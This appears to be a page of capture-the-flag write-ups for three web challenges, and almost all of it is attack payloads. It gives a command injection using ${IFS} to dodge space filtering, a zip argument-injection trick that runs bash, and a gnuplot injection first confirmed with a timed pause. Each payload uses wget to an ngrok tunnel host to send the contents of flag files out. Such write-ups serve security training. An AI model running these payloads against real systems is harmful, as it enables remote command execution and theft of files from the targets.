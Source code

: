 \chapter{Writeups}

\section{WS_1.01 - BasicRCE}
\texttt{;wget$\{IFS\}https://<your-token>.ngrok-free.app/\$(cat$\{IFS\}/flag.txt)}

\section{WS_1.03 - ZipZap - level 2}
\texttt{zip archive.zip ./-T ./-TT "bash rce" rce}

 containing: \texttt{wget https://<your-token>.ngrok-free.app/\$(cat /getflag)}

\section{WS_1.04 - plottyboy}
Identification: \texttt{sin(x); pause 10")} -> 10 seconds are waited before the rendered image is served? yes.
This demonstrates the system uses gnuplot (acually, wrapped with PyGnuplot).

\texttt{sin(x); print system("wget https://<your-token>.ngrok-free.app/\$(cat /flag.txt)")}